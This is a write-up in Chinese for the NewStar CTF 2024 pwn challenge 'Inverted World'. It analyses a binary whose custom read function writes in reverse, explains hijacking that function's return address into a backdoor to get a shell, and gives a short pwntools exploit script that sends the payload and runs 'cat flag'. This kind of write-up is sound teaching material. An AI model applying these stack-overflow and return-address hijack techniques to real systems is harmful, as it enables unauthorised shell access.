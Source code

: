 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# Inverted World

## 题目分析

checksec之后发现未开启pie，开启了canary。

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[255]; // [rsp+0h] [rbp-110h] BYREF
  _BYTE v5[17]; // [rsp+FFh] [rbp-11h] BYREF

  *(_QWORD *)&v5[9] = __readfsqword(0x28u);
  init(argc, argv, envp);
  table();
  write(0, "root@AkyOI-VM:~# ", 0x12uLL);
  read(0, v5, 0x512uLL);  //这里实际是自定义的_read函数，实现和read函数相反方向的输入
  write(1, buf, 0x100uLL);
  puts(byte_402509);
  puts("??? What's wrong with the terminal?");
  return 0;
}
```

main函数的read存在栈溢出，但是这个read函数是自定义的（源码中命名函数名为_read来实现的）。

_read实现的是和正常read相反方向进行输入，我们这里输入的长度0x512明显大于255，可以写到低地址的栈帧的东西，我们劫持位于低地址的_read函数的返回地址到backdoor中间的部分（因为劫持到开头过不了检测）。

反向输入“sh”即可执行system("sh")拿到shell。

关于canary：因为是反向输入的，只要不多写东西就不会修改到canary，自然就不用故意绕过canary。

## Exp

```Python
from pwn import*

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

p=remote('???.???.???.???',?????)

payload=b'a'*0x100
p.sendline(payload+p64(0x040137C)[::-1])
p.sendlineafter("root@AkyOI-VM:~#","hs")
p.sendline("cat flag")
p.interactive()
```
